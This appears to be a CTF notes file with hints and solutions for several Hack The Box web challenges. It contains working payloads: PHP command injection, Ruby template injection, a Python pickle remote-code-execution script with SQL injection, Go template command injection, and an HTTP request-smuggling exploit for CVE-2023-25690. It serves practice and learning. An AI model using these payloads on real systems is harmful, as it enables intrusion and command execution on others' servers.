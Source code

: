 **01 web_lovetok:**

 - Link: https://app.hackthebox.com/challenges/lovetok
 - Hint/Solution "?format=${system(@_GET[cmd]}&cmd=ls ../"
 - Explanation: 
	1. http://178.62.11.21:30505/: This is the base URL.
    2. ?format=$_{system($_GET[1])}: This part of the URL suggests an attempt to inject code. 
   3. It looks like it's trying to use the system function in PHP to execute a command specified in the $_GET[1] parameter.
   4. &1=ls+/: The &1=ls+/ part is likely an attempt to pass the command ls+/ as the value for the $_GET[1] parameter. 
   5. This command typically lists the files and directories in a Unix/Linux system.

**02 Toxic:** cookie to base64
 - Link: https://app.hackthebox.com/challenges/toxic
 -  Hint: Cache is Encoded With Base64 and LFI to RCE via Header Injection.
 - Solution: https://dhanush-ramuk.medium.com/toxic-hackthebox-challenge-walkthrough-easy-5629d066c127
     
**03 Neonify:**
    

 - Link: https://app.hackthebox.com/challenges/neonify
 - Hint: Encode With url Encoding.
	 - <%= File.open('flag.txt').read %> # Read file
 -  Solution: 
	 - `curl 159.65.20.166:32127 \ -s -X POST -d 'neon=a %3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' | grep -Eo 'HTB{.*}'`
 -  Explanation: https://drt.sh/posts/htb-neonify/

             
   
    
**05 COP:**
    

 - Link: https://app.hackthebox.com/challenges/cop
 - Hint: No Flag value in DB, use script
```
import pickle
import base64
import os

payload = 'cp flag.txt application/static/.'

class RCE:
    def __reduce__(self):
        return os.system, (payload,)

if __name__ == '__main__':
    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
```
 - Steps:
	 - run script on local copy the <value> output and 
		add to the url like 
		target/1' UNION SELECT '<VALUE>
 - Solution: https://drt.sh/posts/htb-cop/

**06 Render Quest:**
    

 - Link: https://app.hackthebox.com/challenges/renderquest
 - Hint: Prepare A malicious Like that can have Command in it
	 1. go https://webhook.site/    	
	 2. Preaper Request with Respond Body of {{.FetchServerInfo "ls -la"}}
	 3. Modify it as you go
 - Solution: https://medium.com/@tanish.saxena26/hackthebox-renderquest-cf6c493d7b83

**07 ApacheBlaze:**
 - Link: https://app.hackthebox.com/challenges/ApacheBlaze
 - Hint: CVE-2023–25690 (https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: localhost:1337

-----------------------------------
Reminder for encoding : 

\r\n     ->  %0d%0a
\r\n\r   ->  %0d%0a%0d
```
 - 	After Url Encoding
```
   GET
   /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
	Host: localhost:1337
   ```
- Solution: https://medium.com/@reinhardt.pwn/hackthebox-challenge-write-up-apacheblaze-a32643f19c45
    


